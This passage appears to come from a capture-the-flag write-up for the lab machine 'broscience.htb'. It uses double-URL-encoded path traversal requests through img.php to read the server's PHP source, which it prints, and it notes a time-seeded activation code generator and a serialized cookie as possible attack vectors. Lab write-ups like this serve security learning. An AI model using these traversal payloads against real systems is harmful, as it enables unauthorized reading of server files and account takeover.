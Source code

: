 ```php
}
?>
```

#### /var/www/html/includes/utils.php

Seems to be the script that generates activation codes and is used to update a cookie called **user-prefs**. Since **user-prefs** uses serialization this could be an attack vector during our next steps. 

```text
https://broscience.htb/includes/img.php?path=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%32%66%25%36%38%25%37%34%25%36%64%25%36%63%25%32%66%25%36%39%25%36%65%25%36%33%25%36%63%25%37%35%25%36%34%25%36%35%25%37%33%25%32%66%25%37%35%25%37%34%25%36%39%25%36%63%25%37%33%25%32%65%25%37%30%25%36%38%25%37%30
```

```php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
...
```

#### /var/www/html/activate.php

Used to activate a freshly registered user account

```text
https://broscience.htb/%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%32%66%25%36%38%25%37%34%25%36%64%25%36%63%25%32%66%25%36%31%25%36%33%25%37%34%25%36%39%25%37%36%25%36%31%25%37%34%25%36%35%25%32%65%25%37%30%25%36%38%25%37%30
```

```php
if (isset($_GET['code'])) {
    // Check if code is formatted correctly (regex)
    if (preg_match('/^[A-z0-9]{32}$/', $_GET['code'])) {
        // Check for code in database
        include_once 'includes/db_connect.php';

        $res = pg_prepare($db_conn, "check_code_query", 'SELECT id, is_activated::int FROM users WHERE activation_code=$1');
        $res = pg_execute($db_conn, "check_code_query", array($_GET['code']));

        if (pg_num_rows($res) == 1) {
            // Check if account already activated
            $row = pg_fetch_row($res);
            if (!(bool)$row[1]) {
                // Activate account
                $res = pg_prepare($db_conn, "activate_account_query", 'UPDATE users SET is_activated=TRUE WHERE id=$1');
                $res = pg_execute($db_conn, "activate_account_query", array($row[0]));
                
                $alert = "Account activated!";
                $alert_type = "success";
            } else {
                $alert = 'Account already activated.';
```